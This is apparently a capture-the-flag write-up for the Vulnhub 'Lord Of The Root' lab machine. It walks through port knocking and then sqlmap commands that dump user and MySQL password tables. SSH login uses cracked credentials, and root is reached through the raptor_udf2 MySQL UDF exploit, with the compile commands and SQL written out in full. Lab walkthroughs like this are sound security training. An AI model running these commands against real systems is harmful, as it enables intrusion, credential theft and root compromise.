

# **Vulnhub - Lord Of The Root**

Author: `adi7312`

## **Host scanning**

We start this CTF with scanning a vulnerable machine with command below:

```
nmap -sT -A 192.168.133.132
```





We can see that vulnerable host has opened port 22 (ssh). Let's try connect to that machine via ssh.


```
ssh 192.168.133.132
```


We cannot of course login via ssh, because we don't know password, but we got a hint - we should knock the host at 1st, 2nd and 3rd port.

We can do that with the following script:

```bash
#!/bin/sh
HOST=$1
shift

for ARG in "$@"
do 
    nmap -Pn --host-timeout 201 --max-retries 0 -p $ARG $HOST
done
```

After launching it (`./knock.sh 192.168.133.32 1 2 3`) we can scan the host again.


We can see that there is open http port with Apache server running on it.


## **Investigation of Apache Server**

First what we can do is to investsigate *robots.txt* file, but when we open site with it, we can find only some picture.


But let's take a look at source code. We can find some interesting string that seems to be encoded in Base64.


Let's try to decode it.


Let's decode it again.


As a result we got some interesting directory with index.php file, let's move into it.


We can use *sqlmap* to check if this site is vulnerable to SQLi. 

Let's run the command below:

    sqlmap -o -u "http://192.168.133.132:1337/978345210/index.php" --forms --dbs


As we can see, we got 4 databases, so this site is vulnerable to SQLi!


Let's get tables for Webapp db.


    sqlmap -o -u "http://192.168.133.132:1337/978345210/index.php" --forms -D Webapp --tables


Let's get columns of that table


    sqlmap -o -u "http://192.168.133.132:1337/978345210/index.php" --forms -D Webapp -T Users --columns


Now it's time for dumping passwords:

    sqlmap -o -u "http://192.168.133.132:1337/978345210/index.php" --forms -D Webapp -T Users -C id,username,password --dump


Now we should dump mysql db, we repeat all commands above, but for mysql db.


I made mistake during dumping passwords so I needed to check *user* column with other command (hash A55... is related to debian-sys-maint).

During dumping password *sqlmap* offered to perform dictionary attack on that hashes, I agreed on that and the program cracked that hash. So password to *root* account is *darkshadow*.


## **Further enumeration**

Now we can login to machina via ssh.

```
ssh smeagol@192.168.133.132
Password: MyPreciousR00t
```

In `/` directory we can find some interesting directory named SECRET, it has 3 directories called doors.


When I tried to run this file it turned out that it needs some input, immidiately I thought about Buffer Oveflow, so I provided some garbage data and I was right!


But what is interesting, I could do it only once! Something was watching that file and it didn't allow for further overflowing the buffer. So maybe I should took another way, for example I still have username and password to mysql. Let's check if mysql is running with `ps aux | grep mysql`. Not only it is running, it is running with root privileges! After some research I figured out that there is method for priv esc with mysql.


## **Privilege Escalation**

I used exploit from [this site](https://www.exploit-db.com/exploits/1518). I saved C programm into **raptor2_udf2.c** file. Now we need to compile it and use it.


```shell
gcc -g -c raptor_udf2.c
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
mysql -u root -p
Password: darkshadow

mysql> use mysql;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/home/smeagol/raptor2_udf2.so'));
mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor2_udf2.so';
mysql> create function do_system returns integer soname 'raptor2_udf2.so';
mysql> select * from mysql.func;
```

I followed the instructions in exploit and now we can read the root flag!

```shell
mysql> select do_system('cat /root/Flag.txt > /tmp/out; chmod 777 /tmp/out');
mysql> \! cat /tmp/out
```


Flag: `“There is only one Lord of the Ring, only one who can bend it to his will. And he does not share power.”
– Gandalf`


